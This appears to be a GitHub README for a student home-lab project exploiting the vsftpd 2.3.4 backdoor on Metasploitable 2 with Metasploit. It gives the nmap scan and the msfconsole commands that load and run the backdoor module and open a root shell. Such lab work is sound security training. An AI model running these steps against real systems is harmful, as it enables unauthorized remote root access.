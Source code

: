 
# Metasploit Exploitation Lab: vsftpd 2.3.4 Backdoor

## 🔍 Overview

This project demonstrates the exploitation of a known vulnerability in the vsftpd 2.3.4 service running on Metasploitable 2 using the Metasploit Framework. It was conducted in a safe, isolated home lab environment and documents the step-by-step process of scanning, exploiting, and gaining a remote shell.

## 🛠️ Tools Used

- VMware Workstation (for virtual lab setup)
- Kali Linux (attacker machine)
- Metasploitable 2 (target machine)
- Metasploit Framework
- Nmap (network scanning tool)

## ⚙️ Lab Setup

- **Kali** and **Metasploitable** were configured on the same **host-only network** in VMware.
- Metasploitable's IP was discovered using `ifconfig` inside the VM.

## 📸 Screenshots

### Step 1: Identified target IP address using `ifconfig`
![Step 1 - ifconfig](screenshots/Step_1_vsftpd.jpg)

### Step 2: Scanned with `nmap` to verify port 21
![Step 2 - Nmap](screenshots/Step_2_vsftpd.jpg)

### Step 3: Launched Metasploit and searched for `vsftpd` exploit
![Step 3 - Metasploit Search 1](screenshots/Step_3_msf_search1.png)  
![Step 3 - Metasploit Search 2](screenshots/Step_3_msf_search2.jpg)

### Step 4: Set RHOSTS and ran the exploit
![Step 4 - Exploit Config](screenshots/Step_4_exploit_config.jpg)

### Step 5: Verified shell access with `whoami`, `id`, `uname -a`
![Step 5 - Shell Access](screenshots/Step_5_shell_access.jpg)

## 🧪 Exploitation Steps

1. Identify target IP with `ifconfig` on Metasploitable.
2. Run a service scan from Kali:
   ```bash
   nmap -sV -p 21 <target-ip>
   ```
3. Launch Metasploit:
   ```bash
   msfconsole
   search vsftpd
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS <target-ip>
   run
   ```
4. Confirm shell session:
   ```bash
   whoami
   uname -a
   id
   ```

## ✅ Result

- The exploit was successful, opening a root shell on Metasploitable.
- Demonstrates knowledge of offensive security tools and penetration testing methodology.

## 📄 Report

A full lab write-up is included in the file below:

- [`Metasploit_Exploitation_Lab_Report.pdf`](Metasploit_Exploitation_Lab_Report.pdf)

## 🔐 Disclaimer

This lab was conducted in a **controlled local environment** for **educational purposes only**. Never attempt to exploit systems you do not own or have permission to test.

---

© 2025 Kevin Jared Goates
